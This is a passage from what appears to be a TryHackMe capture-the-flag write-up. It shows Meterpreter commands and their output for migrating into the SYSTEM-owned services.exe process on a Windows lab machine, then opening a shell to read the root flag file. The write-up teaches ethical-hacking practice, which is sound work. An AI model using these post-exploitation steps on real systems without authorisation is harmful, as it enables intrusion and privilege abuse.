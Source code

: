 The room itself recommends us to use **services.exe** process:

```bash
668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe

```

The first numeric value corresponds to the **PID** process ID. So let's migrate!

```bash
meterpreter > migrate 668
[*] Migrating from 2664 to 668...
[*] Migration completed successfully.
meterpreter > 
```
Yay! we did it, we migrated to a privileged process successfully.

Let's see what is the last question or objective of this room

> Question #5: **read the root.txt file at C:\Windows\System32\config**

```bash
meterpreter > shell
Process 2728 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd config
cd config

C:\Windows\System32\config>type root.txt
type root.txt
{THIS IS THE FLAG VALUE}

C:\Windows\System32\config>

```
And that's all there is to this room. I hope you find this useful, I tried to detail pretty much every step I took to solve the room. I'm sure there are other ways to go about solving this room, I tried to operate within my noob-level expertise and I think the end result could prove useful to other noob-level ethical hackers out there.

As usual, happy hacking.

{{< thm_badge >}}





